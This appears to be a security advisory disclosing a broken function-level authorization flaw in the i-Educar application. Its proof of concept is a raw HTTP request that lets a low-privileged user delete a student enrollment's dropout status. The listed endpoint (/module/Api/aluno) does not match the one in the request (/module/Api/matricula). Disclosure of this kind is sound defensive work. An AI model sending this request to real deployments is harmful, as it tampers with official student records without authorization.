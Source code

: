 # Broken Function Level Authorization on `matricula` API allows deletion of “abandono” status

### Summary

A **Broken Function Level Authorization (BFLA)** vulnerability was identified in the `matricula` API of the **i-Educar** application. This issue allows low-privileged users to delete the **“abandono”** (dropout) status of arbitrary student enrollments by manipulating request parameters.

---

### Details

**Vulnerable Endpoint:**  
`GET /module/Api/aluno`

The application fails to enforce authorization checks to ensure that only privileged users (e.g., administrators) can perform sensitive operations like deleting an abandonment status. By altering the `id` parameter, an attacker can affect records that do not belong to them.

---
### Proof of Concept (PoC)

1. Authenticate as a non-privileged user.

<img width="1380" height="528" alt="image" src="https://github.com/user-attachments/assets/02cd535d-8784-4caf-bb89-08ca04895a91" />

<img width="846" height="616" alt="image" src="https://github.com/user-attachments/assets/92bf93a9-38d6-49be-b911-0e5e06da59f9" />

2. Send the following request:

```
GET /module/Api/matricula?&oper=delete&resource=abandono&id=206 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://localhost/intranet/educar_matricula_det.php?cod_matricula=206
Cookie: i_educar_session=Mz9IKWGOP641g4BLkSGRnxs69wk4ChmUUxUerX19
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

```



3. We could observe that the deletion was successful.

<img width="1574" height="542" alt="image" src="https://github.com/user-attachments/assets/aa537a63-20d8-4586-afad-9342380ac332" />

---

### Impact

- **Unauthorized deletion of academic records:** Any low-privileged or compromised account can remove critical status information (e.g., “abandono”) from student enrollments.
    
- **Integrity violation:** Enables tampering with academic data, which can affect official records.
      

This vulnerability directly compromises the **integrity** of the system and could have legal/regulatory implications due to unauthorized modification of academic records.


---

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
